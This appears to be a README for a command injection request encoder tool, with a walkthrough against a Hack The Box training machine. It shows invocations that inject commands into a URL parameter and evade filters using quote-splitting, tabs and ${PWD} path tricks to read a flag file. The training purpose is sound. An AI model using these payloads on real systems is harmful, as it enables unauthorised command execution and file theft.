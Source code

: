 # Command Injection Request Encoder

⚠️ The tool is experimental, use at your own risk ⚠️

Command Injection Request Encoder (cire) is a tool that can be used to encode requests for pseudo-manual command injection exploitation. This tool was developed for training purposes.

#### Testing

We can test the tool on the following practice CTF machine: `https://academy.hackthebox.com/module/109/section/1042`.

* We can try to inject something in every parameter of every request

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';' -v
```

The following requests result in an error displayed to the URL indicating that the command `mv` failed (missing operand). **The parameter is vulnerable.**

Trying payloads with well-known commands such as `;id`, `;pwd` or `;cat` are filtered (`Malicious request denied!`) while `;w` works fine. Commands such as `;c""at` are by-passing the filter.

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at' -v
```

Spaces are filtered. We can use tabs using the placeholder `<tab>`.

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at<tab>' -v
```

We need to build a path. `..` is allowed, while `../` is filtered. We can use variables:

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';ca""t<tab>..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}flag.txt' -v
```